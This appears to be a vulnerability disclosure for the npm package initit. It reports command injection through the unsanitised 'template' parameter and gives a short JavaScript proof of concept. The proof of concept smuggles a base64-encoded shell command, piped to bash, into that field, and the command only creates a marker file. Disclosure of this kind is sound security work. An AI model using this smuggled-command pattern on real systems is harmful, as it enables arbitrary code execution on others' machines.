 We find a potential command injection vulnerability from from [initit](https://www.npmjs.com/package/initit).
The bug is introduced because package-exported method fails to sanitize ``template`` parameter and let it flow into a sensitive command execution API.

The following code is the proof of concept.

```javascript
const initit = require("initit")

// touch /tmp/initit_rce
initit({name: "xxx",template: "`echo dG91Y2ggL3RtcC9pbml0aXRfcmNl | base64 -d | bash`/bbb"})
```

